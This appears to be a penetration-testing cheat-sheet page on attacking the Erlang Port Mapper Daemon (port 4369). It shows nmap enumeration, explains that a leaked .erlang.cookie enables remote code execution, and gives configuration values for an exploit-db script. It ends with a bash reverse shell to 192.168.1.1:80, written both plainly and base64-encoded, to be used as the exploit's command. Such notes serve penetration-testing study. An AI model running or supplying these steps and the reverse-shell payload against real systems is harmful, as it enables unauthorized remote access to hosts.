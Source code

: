 ```yaml
---
description: Erlang Cookie RCE
---
```


# Erlang - 4369

[https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

```
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info 192.168.1.2

4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
65000/tcp open   unknown
```

### Erlang Cookie RCE

If you can **leak the Authentication cookie** you will be able to execute code on the host. Usually, this cookie is located in **\~/.erlang.cookie** and is generated by erlang at the first start.

There is a epmd port. And rabbit service on 65000 port. We need to rce we need erlang.cookie value. We can brute force it or we can find it via another services on the host.

```
.erlang.cookie
JFKERIPLFKVJSQRDIXJS
```

### Erlang Cookie - Remote Code Execution

[https://www.exploit-db.com/exploits/49418](https://www.exploit-db.com/exploits/49418)

```
$ python3 49418
```

We need to change relevant parts of the code.

```
TARGET = "192.168.1.2"
PORT = 65000
COOKIE = "JFKERIPLFKVJSQRDIXJS"
CMD = "id"
```

```
/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1 - Base64 encoded

CMD="echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzgwIDA+JjE= | base64 -d > shell.sh"
CMD="bash shell.sh"
```
